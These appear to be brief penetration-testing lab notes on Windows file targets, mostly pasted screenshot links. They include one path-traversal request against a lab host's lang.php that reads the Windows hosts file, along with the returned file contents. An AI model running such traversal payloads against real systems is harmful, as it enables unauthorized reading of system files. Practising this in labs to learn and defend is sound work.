 # system.ini
![[Pasted image 20240506142020.png]]
# win.ini

![[Pasted image 20240506142510.png]]
![[Pasted image 20240506150628.png]]

# /etc/hosts
```bash
http://10.10.110.213/lang.php?page=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\windows\system32\drivers\etc\hosts

# Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft TCP/IP for Windows. # # This file contains the mappings of IP addresses to host names. Each # entry should be kept on an individual line. The IP address should # be placed in the first column followed by the corresponding host name. # The IP address and the host name should be separated by at least one # space. # # Additionally, comments (such as these) may be inserted on individual # lines or following the machine name denoted by a '#' symbol. # # For example: # # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host # localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost
```

![[Pasted image 20240506152946.png]]